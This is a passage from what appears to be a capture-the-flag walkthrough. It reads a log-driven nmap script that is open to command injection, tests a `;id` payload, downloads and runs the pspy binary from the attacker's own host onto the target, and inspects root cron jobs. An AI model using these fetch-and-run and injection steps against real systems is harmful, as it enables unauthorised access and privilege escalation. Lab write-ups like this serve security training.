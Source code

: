 `/home/pwn/scanlosers.sh` looks interesting. Let's see what's inside:

```bash
$ cat /home/pwn/scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

It looks like it takes whatever IPs are in the `hackers` file and runs `nmap` against them, then wipes the file. We can see if we can catch this behaviour in `pspy`:

```bash
$ cd /tmp
$ wget http://10.10.16.211:8000/pspy64
--2021-06-12 14:01:38--  http://10.10.16.211:8000/pspy64
Connecting to 10.10.16.211:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.94M  1.27MB/s    in 2.3s    

2021-06-12 14:01:40 (1.27 MB/s) - ‘pspy64’ saved [3078592/3078592]

$ chmod +x pspy64
$ ./pspy64
```

Sure enough, when we submit `;id` to the searchsploit field we see our IP being scanned:

![[Pasted image 20210612145609.png]]

We can also see some sort of other CRON-based automation, running as root. We can read `/etc/crontab` to see this:

```bash
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
```